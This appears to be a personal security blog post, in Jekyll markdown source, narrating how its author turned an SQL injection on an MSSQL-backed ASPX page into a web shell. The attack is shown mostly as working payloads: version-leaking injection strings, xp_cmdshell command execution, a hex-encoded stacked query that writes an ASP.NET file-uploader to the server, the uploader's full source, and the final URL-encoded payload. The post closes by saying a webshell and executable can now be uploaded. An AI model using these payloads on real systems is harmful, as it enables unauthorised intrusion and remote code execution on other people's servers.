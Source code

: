 ```yaml
---
layout: post
title:  "MSSQL Injection to Shell"
date:   2021-09-24 09:17:08 +0100
tags: mssql sqli shell
---
```


# MSSQL Injection to Shell
![]({{site.url}}/images/MSSQL/main.png){:width="100%"}
<br>Got a link to a SQLi vulnerable page, did a quick check to see the version ..

{% highlight sql %}
http://mssql/sqli.aspx' and 1=@@version -- -
{% endhighlight %}

![]({{site.url}}/images/MSSQL/version.png){:width="100%"}

The page also gave me the full path. So, my next step was to test if `xp_cmdshell` is enabled and the directory is writable.

{% highlight sql linenos %}
http://mssql/sqli.aspx';
exec master..xp_cmdshell 'whoami > C:\path\file.txt'-- -
{% endhighlight %}
<br>
{% highlight bash %}
http://mssql/file.txt
{% endhighlight %}

![]({{site.url}}/images/MSSQL/xp_cmdshell.png)

The directory is writable and xp_cmdshell is enabled but we can't send our 0xUPLOADER directly in xp_cmdshell so I declared some variables and came up with this

{% highlight sql linenos %}
declare @content varchar(8000)
declare @command varchar(8000)
set @content = 0xUPLOADER
set @command = 'echo '+@content+' > C:\path\uploader.aspx'
exec master..xp_cmdshell @command
{% endhighlight %}

<br>and here's a small asp uploader that I found online

{% highlight asp linenos %}
<%@ Page Language="C#" Debug="false" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>
<script runat="server">
protected void upl_Click(object sender, EventArgs e)
{try{if (fu.HasFile){fu.SaveAs(Server.MapPath(".") +"\\"+ System.IO.Path.GetFileName(fu.FileName));Response.Write("Success");}}catch{Response.Write("Failed");}}
</script>
<form id="form1" runat="server">
<asp:FileUpload ID="fu" runat="server" />
<asp:Button ID="upl" runat="server" Text="Upload" OnClick="upl_Click" />
</form>
{% endhighlight %}

<br>So just hex the uploader? No, we have to escape the angle brackets `< >` first

{% highlight bash %}
cat uploader.aspx | sed 's/</^</g; s/>/^>/g'
{% endhighlight %}

{% highlight asp linenos %}
^<%@ Page Language="C#" Debug="false" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%^>
^<script runat="server"^>
protected void upl_Click(object sender, EventArgs e)
{try{if (fu.HasFile){fu.SaveAs(Server.MapPath(".") +"\\"+ System.IO.Path.GetFileName(fu.FileName));Response.Write("Success");}}catch{Response.Write("Failed");}}
^</script^>
^<form id="form1" runat="server"^>
^<asp:FileUpload ID="fu" runat="server" /^>
^<asp:Button ID="upl" runat="server" Text="Upload" OnClick="upl_Click" /^>
^</form^>
{% endhighlight %}

<br>and the final payload looked something like this

{% highlight sql linenos %}
http://mssql/sqli.aspx';
declare @content varchar(8000)
declare @command varchar(8000)
set @content = 0xUPLOADER 
set @command = 'echo '%2b@content%2b' > C:\path\uploader.aspx'
exec master..xp_cmdshell @command  -- -
{% endhighlight %}

![]({{site.url}}/images/MSSQL/uploader.png)

Now we can easily upload our webshell and .exe 👀


# $ cat /etc/motd
